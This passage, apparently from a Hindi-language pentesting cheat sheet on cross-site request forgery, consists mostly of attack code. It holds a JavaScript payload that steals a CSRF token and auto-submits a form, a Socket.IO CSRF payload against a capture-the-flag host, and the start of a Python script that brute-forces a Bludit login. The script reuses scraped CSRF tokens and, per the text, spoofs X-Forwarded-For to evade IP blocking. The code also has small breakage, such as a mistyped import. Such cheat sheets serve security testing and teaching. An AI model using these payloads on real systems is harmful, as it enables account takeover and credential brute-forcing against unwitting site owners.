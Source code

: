 ```html
x.withCredentials = true;
x.open("GET","http://google.com?param=VALUE",true);
x.send(null);
}
x.onreadystatechange = function() {
if (x.readyState == XMLHttpRequest.DONE) {
var token = x.responseText.match(/name="token" value="(.+)"/)[1];
document.getElementById("findtoken").value = token;
document.getElementById("form").submit();
}
}
</script>
```
### CSRF with Socket.IO
```html
<script src="https://cdn.jsdelivr.net/npm/socket.io-client@2/dist/socket.io.js"></script>
<script>
let socket = io('http://six.jh2i.com:50022/test');

const username = 'admin'

socket.on('connect', () => {
console.log('connected!');
socket.emit('join', {
room: username
});
socket.emit('my_room_event', {
data: '!flag',
room: username
})

});
</script>
```
## CSRF लॉगिन ब्रूट फोर्स

कोड का उपयोग CSRF टोकन का उपयोग करके एक लॉगिन फॉर्म को ब्रूट फोर्स करने के लिए किया जा सकता है (यह संभावित IP ब्लैकलिस्टिंग को बायपास करने के लिए X-Forwarded-For हेडर का भी उपयोग कर रहा है):
```python
import request
import re
import random

URL = "http://10.10.10.191/admin/"
PROXY = { "http": "127.0.0.1:8080"}
SESSION_COOKIE_NAME = "BLUDIT-KEY"
USER = "fergus"
PASS_LIST="./words"

def init_session():
#Return CSRF + Session (cookie)
r = requests.get(URL)
csrf = re.search(r'input type="hidden" id="jstokenCSRF" name="tokenCSRF" value="([a-zA-Z0-9]*)"', r.text)
csrf = csrf.group(1)
session_cookie = r.cookies.get(SESSION_COOKIE_NAME)
return csrf, session_cookie

def login(user, password):
print(f"{user}:{password}")
csrf, cookie = init_session()
cookies = {SESSION_COOKIE_NAME: cookie}
```